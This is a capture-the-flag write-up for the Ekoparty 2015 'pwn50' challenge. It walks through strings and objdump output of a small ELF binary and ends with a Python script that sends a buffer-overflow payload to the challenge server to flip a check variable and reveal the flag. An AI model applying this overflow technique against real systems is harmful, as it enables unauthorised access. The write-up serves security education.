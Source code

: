 [](ctf=ekoparty-pre-ctf-2015)
[](type=pwn)
[](tags=buffer-overflow)

We are given a [zip](../pwn50.zip) file.
Extracting it gives us [flag](../flag) executable.

```bash
$ file flag
flag: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=36d90477a8214ae522b46125cf8296e52a3a2d6c, not stripped

$ ./flag 
User : AAAA
Password : AAAA
```
A quick strings on the file gives

```bash
$ strings flag
.
.
flag.txt
User : 
Password : 
charly
h4ckTH1s
.
.

$ ./flag 
User : charly
Password : h4ckTH1s
Welcome guest!
```
But no flag!!
```objdump
   0x00000000004008d3 <+310>:	lea    rax,[rbp-0xd0]
   0x00000000004008da <+317>:	add    rax,0x4
   0x00000000004008de <+321>:	mov    edx,0x6
   0x00000000004008e3 <+326>:	mov    esi,0x400a23
   0x00000000004008e8 <+331>:	mov    rdi,rax
   0x00000000004008eb <+334>:	call   0x400600 <strncmp@plt>
   0x00000000004008f0 <+339>:	test   eax,eax
   0x00000000004008f2 <+341>:	jne    0x400945 <main+424>
   0x00000000004008f4 <+343>:	lea    rax,[rbp-0xd0]
   0x00000000004008fb <+350>:	add    rax,0x18
   0x00000000004008ff <+354>:	mov    edx,0x8
   0x0000000000400904 <+359>:	mov    esi,0x400a2a
   0x0000000000400909 <+364>:	mov    rdi,rax
   0x000000000040090c <+367>:	call   0x400600 <strncmp@plt>
   0x0000000000400911 <+372>:	test   eax,eax
   0x0000000000400913 <+374>:	jne    0x400945 <main+424>
   0x0000000000400915 <+376>:	mov    edi,0x400a33
   0x000000000040091a <+381>:	call   0x400610 <puts@plt>
   0x000000000040091f <+386>:	mov    eax,DWORD PTR [rbp-0xa8]
   0x0000000000400925 <+392>:	cmp    eax,0x1
```
We see there is an additional check involving $rbp-0xa8 to get the flag.
```objdump
   0x000000000040083d <+160>:	mov    DWORD PTR [rbp-0xd0],0x11
   0x0000000000400847 <+170>:	mov    DWORD PTR [rbp-0xbc],0x10
   0x0000000000400851 <+180>:	mov    DWORD PTR [rbp-0xa8],0x0
   0x000000000040085b <+190>:	mov    edi,0x400a0f
   0x0000000000400860 <+195>:	mov    eax,0x0
   0x0000000000400865 <+200>:	call   0x400640 <printf@plt>
   0x000000000040086a <+205>:	mov    edi,0x0
   0x000000000040086f <+210>:	call   0x400690 <fflush@plt>
   0x0000000000400874 <+215>:	mov    eax,DWORD PTR [rbp-0xd0]
   0x000000000040087a <+221>:	cdqe   
   0x000000000040087c <+223>:	lea    rdx,[rbp-0xd0]
   0x0000000000400883 <+230>:	lea    rcx,[rdx+0x4]
   0x0000000000400887 <+234>:	mov    rdx,rax
   0x000000000040088a <+237>:	mov    rsi,rcx
   0x000000000040088d <+240>:	mov    edi,0x0
   0x0000000000400892 <+245>:	call   0x400650 <read@plt>
   0x0000000000400897 <+250>:	mov    edi,0x400a17
   0x000000000040089c <+255>:	mov    eax,0x0
   0x00000000004008a1 <+260>:	call   0x400640 <printf@plt>
   0x00000000004008a6 <+265>:	mov    edi,0x0
   0x00000000004008ab <+270>:	call   0x400690 <fflush@plt>
   0x00000000004008b0 <+275>:	mov    eax,DWORD PTR [rbp-0xbc]
   0x00000000004008b6 <+281>:	cdqe   
   0x00000000004008b8 <+283>:	lea    rdx,[rbp-0xd0]
   0x00000000004008bf <+290>:	lea    rcx,[rdx+0x18]
   0x00000000004008c3 <+294>:	mov    rdx,rax
   0x00000000004008c6 <+297>:	mov    rsi,rcx
   0x00000000004008c9 <+300>:	mov    edi,0x0
   0x00000000004008ce <+305>:	call   0x400650 <read@plt>
```
The read for username is called with 0x11 length and password with 0x10.
However when we give the username as 'A'*17 for second read
```bash
Guessed arguments:
arg[0]: 0x0 
arg[1]: 0x7fffffffe158 --> 0x0 
arg[2]: 0x41 ('A')
arg[3]: 0x7fffffffe158 --> 0x0 
```
This means we can control the length of input for password using the input from username.
Also strncmp for username is called with 6 length and password with 8. This helps us so that we can pad the username and password with anything.
After a little hit and trial we figure out the distance between password buffer and $rbp-0xa8 is 16

```python
import socket
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('challs.ctf.site',20000))
s.recv(1024)
s.send('charlyAAAAAAAAAAA')
s.recv(1024)
s.send('h4ckTH1sAAAAAAAA\x01\x00')
print s.recv(1024)
```
gives us 

Welcome guest!
Your flag is : EKO{Back_to_r00000ooooo00000tS}

Flag
> EKO{Back_to_r00000ooooo00000tS}
